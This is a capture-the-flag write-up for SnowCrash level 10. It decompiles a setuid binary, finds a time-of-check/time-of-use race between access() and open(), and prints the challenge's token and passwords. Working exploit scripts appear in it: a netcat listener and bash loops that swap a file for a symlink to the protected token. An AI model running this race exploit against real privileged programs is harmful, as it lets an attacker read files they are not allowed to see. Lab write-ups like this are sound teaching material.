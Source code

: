 # Level 10
This one is my favorite

- We login as user level10.
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level10.c:
int main(int, char **);

Non-debugging symbols:
0x080484d0  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
    HUGE CODE
End of assembler dump.

(gdb) q
```


- Let's save time, we can use [Ghidra](https://en.wikipedia.org/wiki/Ghidra) to get an interpretation of the source code of this binary.
```c
int main(int argc,char **argv)
{
  ...  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
    exit(1);
  }

  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];

  iVar2 = access(pcVar6,4);
  if (iVar2 != 0) {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  else {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    ...
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    ...

    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
      exit(1);
    }

    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
      exit(1);
    }

    printf("Connected!\nSending file .. ");
    fflush(stdout);

    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
      exit(1);
    }

    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
      exit(1);
    }

    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }

  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return iVar2;
}
```


- We can see that the program makes a call to `access(argv[1])`. If this call succeeds, it will attempt to establish a socket connection to `argv[2]` through port 6969 in order to send the content of the file named `argv[1]`.


- Given that `access()` does not consider [the setuid and setgid bits](https://en.wikipedia.org/wiki/Setuid) when checking permissions, the program displays `You don't have access to the token` and then terminates.


- Note that [the call to access(), directly followed by a call to open(), is the subject of a security vulnerability](https://vulncat.fortify.com/en/detail?id=desc.controlflow.cpp.file_access_race_condition#C%2FC%2B%2B).
Indeed, between the time when the program calls `access(our_file)` and the time when it calls `open(our_file)`, it is possible for us to replace `our_file` with a file of the same name, but which would be a symbolic link to another file. As a result, the program will rely on the return of `access(our_file)` to determine whether it can `open(our_file)` or not.


- Thus, we will need 3 terminals. The first one will run `nc -lk 6969 > /tmp/pwn.log` to listen on all IPs through port 6969 and store everything it receives in `/tmp/pwn.log`.


- In a `while true` loop, the second part script creates a file accessible for reading, deletes it, and then creates a symbolic link with the same name, pointing to `/home/user/level10/token`.
```bash
#!/bin/bash
while true
do
	touch /tmp/exploit
	rm /tmp/exploit
	ln -s /home/user/level10/token /tmp/exploit
	rm /tmp/exploit
done
```


- The latter will run our binary in a loop, passing the readable file as a parameter to it.
```bash
#!/bin/bash
while true
do
	/home/user/level10/level10 "/tmp/exploit" "127.0.0.1"
done
```


- Thus:
```
level10@SnowCrash:~$ cat /tmp/pwn.log | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
...
```

```
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```

```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

```
flag10@SnowCrash:~$ su level11
Password:feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$
```
